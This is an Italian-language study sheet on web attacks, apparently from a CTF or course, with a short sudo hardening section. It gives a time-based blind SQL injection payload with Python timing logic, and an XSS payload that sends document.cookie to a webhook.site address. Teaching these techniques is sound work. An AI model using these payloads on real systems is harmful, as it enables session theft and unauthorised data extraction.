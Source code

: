     
    *   **Timed SQL Injection**
        
        olto simile a quella usata per una SQL injection blind: come prima dovremo scrivere un'altra query che faccia da oracolo, ma stavolta successo o fallimento saranno discriminati sulla base del tempo di risposta - inseriamo una sleep che si attiva solo se è vera la where.
        
            #in pratica si aggiunge uno sleep che si avvia nel momento in cui 
            #è vera l'espressione where
            1' AND (SELECT SLEEP(1) FROM flags WHERE HEX(flag) LIKE 'guess%')='1
            
            #la logica è questa:
            from time import time
            # Registriamo il tempo di inizio
            start = time()
            # Lanciamo la query...
            inj.time(...)
            # Confrontiamo il tempo finale con quello di partenza
            elapsed = time() - start
            if elapsed > 1:
                # match!
        
    

*   **XSS** - **CSRF**
    
    *   **XSS**
        
        Utilizzo javascript in mezzo ad html per fare XSS
        
            #Tramite url
            http://foo.bar/hello.php?name=<script>alert(1)</script>
            
            #con input altrimenti
            <img src="a" onerror="fetch('https://webhook.site/304b9e35-9408-47f6-a57e-a19ca61a9a0f/' + document.cookie)"></img>
        
    
    *   **CSRF**
    

HARDENING

1.  Attivare sudo utente per un solo file
    
        sudo visudo
        cysec ALL=(ALL) NOPASSWD: /usr/bin/nmap
    

2.  Configurare sudo per far eseguire comando specifico ma senza parametri
    
        sudo visudo
        cysec ALL=(ALL) NOPASSWD: /usr/bin/nmap ""
    
